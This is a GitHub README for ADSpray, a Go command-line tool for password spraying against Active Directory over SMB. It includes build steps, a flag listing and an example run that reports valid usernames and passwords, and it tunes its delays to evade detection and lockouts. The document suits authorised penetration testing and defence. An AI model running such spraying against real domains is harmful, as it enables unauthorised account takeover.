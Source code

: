 # ADSpray

ADSpray is a password spraying that can be used to spray passwords against Active Directory. Since it's written in Go, it should work on any operating system and any architecture. Operators can configure the amount of attempts and how long the software should wait to try another spray. In addition, the timeout between authentication attempts can be changed. A logon attempt is seen as valid when the user is able to log in, the account is disabled or when the status must change. All login attempts are logged to a text file. 

## Features

- **Password Spraying:** Attempts a specified number of passwords per user, per cycle.
- **SMB Protocol:** Operates over SMB for authentication attempts.
- **Configurable Delays:** Supports jitter (milliseconds) between attempts and sleep (minutes) between cycles to avoid detection and lockouts.
- **Logging:** Outputs results to a log file for review.

## Installation

```
git clone https://github.com/ShamelessNanoUser/ADSpray
cd ADSpray
go build 
```

## Usage

```
./ADSpray -h
Usage of ./ADSpray:
  -a, --attempts int       Amount of passwords to try during one spray cycle
  -t, --dc string          IP address of target domain controller
  -d, --domain string      FQDN of target domain
  -h, --help               Argument to show help
  -j, --jitter int         Sleep time in milliseconds between connection attempts, also known as jitter (default 50)
  -o, --output string      Output file for spray log (default "spray_log.txt")
  -p, --passwords string   Path to text file containing passwords to spray
  -s, --sleep int          Sleep time in minutes between spray cycles
  -u, --users string       Path to text file containing usernames to spray against
```

## Example

```
./ADSpray -d howdoiexitvim.local -t 192.168.1.0 -u users.txt -p passwords.txt -a 3 -s 15 
Did you check if there is a Fine Grained Password Policy in place? (y/n) y
ADSpray is now gonna start spraying 3 passwords per 15 minutes, continue? (y/n) y
File spray_log.txt exists, overwrite? (y/n) y
[+] Spraying the password Password01
[+] Spraying the password Password01!
[!] Found valid credentials: john:Password01!
[!] Found valid credentials: lucas:Password01! - NT_STATUS_DISABLED
[!] Found valid credentials: noah:Password01! - STATUS_PASSWORD_EXPIRED
[+] Spraying the password Password123
[+] Reached maximum attempts, sleeping for: 15:00

```
